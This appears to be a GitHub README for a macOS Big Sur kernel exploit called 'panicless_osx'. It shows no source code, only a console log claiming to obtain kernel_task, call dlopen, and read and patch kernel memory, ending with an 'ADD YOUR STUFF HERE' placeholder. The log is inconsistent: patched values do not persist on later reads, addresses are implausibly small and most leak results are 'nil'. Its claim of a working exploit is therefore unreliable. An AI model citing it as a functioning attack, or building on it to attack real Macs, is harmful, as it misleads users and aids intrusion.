 # panicless_osx
an arbitrary mem emulation exploit for macOS (Big Sur)

[panicless_osx] lets move in the dangly sketchy exploit
<br />
[panicless_osx] getting kernel task.
<br />
[panicless_osx] writing argument to dlopen.
<br />
[+] done!
<br />
[panicless_osx] exploring fake kernel_task abilities
<br />
[exploit] kernel_task (os/kern) successful
<br />
[+] kernel_task -> 0x1048835
<br />
[+] (read/kern) orig where:0x1056768 -> val 16
<br />
[+] (read/kern) patched where:0x1056768 -> val -272633096
<br />
[+] (read/kern) orig where:0x8192 -> val -272633088
<br />
[+] (read/kern) patched where:0x8192 -> val -272633096
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x4919 ->
<br />
info: nil
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x9015 ->
<br />
info: nil
<br />
[panicless_osx] fun part here (lets have some fun?)
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16777504 ->
<br />
info: nil
<br />
info -> 8
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16778272 ->
<br />
info: nil
<br />
info -> 16
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16777504 ->
<br />
info: nil
<br />
info -> 16
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x13443 ->
<br />
info: nil
<br />
info -> 16
<br />
[+] (read/kern) orig where:0x13443 -> val 16
<br />
[+] (read/kern) patched where:0x13443 -> val -272633096
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x13443 ->
<br />
info: nil
<br />
info -> 16
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x13443 ->
<br />
info: nil
<br />
[*] wefun -> 0x16
<br />
[*] wefun_pac -> 0x16777215
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16777231 ->
<br />
info: nil
<br />
wefun_pac_orig -> 16
<br />
[+] (read/kern) orig where:0x16777231 -> val 16
<br />
[+] (read/kern) patched where:0x16777231 -> val -272633096
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16777231 ->
<br />
info: nil
<br />
wefun_pac_patched -> 16
<br />
[panicless_osx] ADD YOUR STUFF HERE
<br />
Program ended with exit code: 0
